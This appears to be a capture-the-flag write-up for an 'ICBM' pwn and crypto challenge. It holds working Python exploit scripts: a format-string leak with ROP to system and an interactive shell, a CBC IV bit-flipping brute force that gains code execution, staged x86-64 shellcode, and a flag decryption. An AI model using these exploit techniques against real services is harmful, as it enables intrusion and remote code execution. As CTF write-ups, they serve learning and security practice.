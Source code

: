 ## ICBM - Pwn + Crypto 1000 problem

ICBM starts out with a program with some trivial vulnerabilities. Wow, 1000
points for some simple ROP? Sounds good to me!

We are kindly given a copy of the system libc. We have both a buffer overflow
and a format string vuln, so we can just leak out a libc address and jump to
system.

```python
import struct
import socket
import sys

libc_system = 0x46183 #offset a bit to use rbx instead of rdi
libc_binsh = 0x17d87b

pop_rbx_rbp = 0x1f577

leak_start_to_base = 0x7ffff7dd59f0-0x7ffff7a14000

s = socket.create_connection(('54.65.28.239',9991))

def readuntil(st):
  buf = ""
  while (st not in buf):
    buf += s.recv(1)
  return buf

print readuntil("> ")
s.send("%qx\n")

res = readuntil("> ")
leak = int(res.split("TODO")[0],16)
system = (leak - leak_start_to_base)+libc_system

binsh = (leak - leak_start_to_base)+libc_binsh

s.send("y\n")
s.send("-15\n")

for i in xrange(54):
  s.send("5\n")

pop_rbx_rbp += (leak - leak_start_to_base)

def send8(i):
  s.send(str(i&0xffffffff)+"\n")
  s.send(str(i>>32)+"\n")

send8(pop_rbx_rbp)
send8(binsh)
send8(binsh)
send8(system)

import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Awesome! We get a shell and `cat flag` and... crap. Looks like it won't be that
easy.

We are told that we need to extract launch codes from the icbm server. The
server is running on port 9990, and we get a copy of a "neutered" version.
Like the first challenge, the code here is pretty simple. It reads in some
data, AES-CBC decrypt it, and jumps to it.

Since this is CBC mode, we know the first 16 bytes (the IV) act as an xor key
on the data. That means it's feasible for us to brute force the xor key a little
bit at a time.

Our approach is as follows: start off by brute forcing the first 2 characters.
Most of the time, this should result in a crash and an immediate disconnect.
However, some of the time, we should get something like `eb fe`, which will
result in an infinite loop, and not disconnect until the service times out.
Therefore, we send characters until we don't immediately get disconnected. From
there, we need to determine which bytes we sent. To do that, xor our first two
bytes with a known infinite loop pattern, and several "candidate" infinite loop
patterns. Based on which "candidate" patterns it matches, we can determine which
two byte loop we found.


```python
def test(buf):
  s = socket.create_connection(('localhost',9990))
  s.recv(1024)
  s.sendall(buf.ljust(4096,"\x00"))
  t = time.time()
  while time.time() - t < 0.1:
    s.sendall("foo")

def ttest(buf):
  try:
    test(buf)
    return True
  except:
    return False

#candidate infinite loop patterns
possibles = [0xffe5 ,0xe0fe ,0xe3fe ,0xe2fe ,0xebfe ,0x71fe ,0x73fe ,0x75fe ,0x77fe ,0x79fe ,0x7afe ,0x7dfe, 0x7ffe,0x55c3]

def decode1(sofar):
  for i in xrange(65536):
    buf = sofar+chr(i>>8)+chr(i&0xff)

    if i%1024 == 0:
      print i

    if ttest(buf):
      print "w00t",buf.encode("hex")

      for pp in possibles:
        x = i^pp^0xffe5
        print "  ",ttest(sofar + chr(x>>8)+chr(x&0xff)),hex(pp)
      break
```

After a couple thousand tries, we find a candidate: the string `1e d2` encodes
to the infinite loop `55 c3` (`push rbp; ret` which infinite loops as `rbp`
points to our buffer).

Next, we do the following: encode the string `90 .. ff`, and brute force the
last byte. This should give us an infinite loop only when the last byte is `e5`.
Continue this, and eventually we get an xor key that gives us 16 controllable
bytes.

```python
def decode(sofar):
  for i in xrange(256):
    buf = sofar+chr(i)

    if ttest(buf):
      sofar = sofar[:-1] + chr(ord(sofar[-1])^0xff^0x90) + chr(i^0xff^0xe5)
      return sofar

  print "crap"
```

Once we have that, we encrypt a small 12 byte stager shellcode which
lets us run some longer shellcode to get a shell.

```nasm
[BITS 64]
xor rax, rax
imul eax
mov rsi, rbp
mov dh, 0x10
syscall
```

```python
#!/usr/bin/python
import socket
import struct
import telnetlib

def readuntil(f, delim='> '):
    data = ''
    while not data.endswith(delim):
        data += f.read(1)
    return data

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 9990))
f = s.makefile('rw', bufsize=0)

readuntil(f)

# A block of zeros decrypts to this value. Obtained by IV bit flipping
# to find infinite loops.
iv = map(ord, list('4b1199216542d9e9bb9cc69ebc99ae5c'.decode('hex')))

# xor the IV with our stager shellode
for i, v in enumerate(map(ord, list(open('sc.bin').read()))):
    iv[i] ^= v

block = '\x00' * 16

payload = ''.join(map(chr, iv)) + block
f.write(payload.ljust(4096, 'A'))

stage2 = '\x90' * 12 + open('shell.bin').read()
f.write(stage2.ljust(4096, 'B'))

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Once we have exploited the service, we find the non-redacted version of
the binary in `icbm_test_server` and an encrypted flag file, `flag.enc`.
We extract the IV and key from the binary to decrypt the flag:

```python
#!/usr/bin/python
from Crypto.Cipher import AES

key =
'46e615ded2b8db662c680361d9ea8df77c9e71da87bfd87eda20e98280b872cd'.decode('hex')
iv = 'f701ec6b888a1da993b1122f4804b102'.decode('hex')
cipher = AES.new(key, AES.MODE_CBC, iv)
print cipher.decrypt(open('flag.enc').read())
```

```
In case you forgot the launch code:

purest_of_bodily_fluids
```
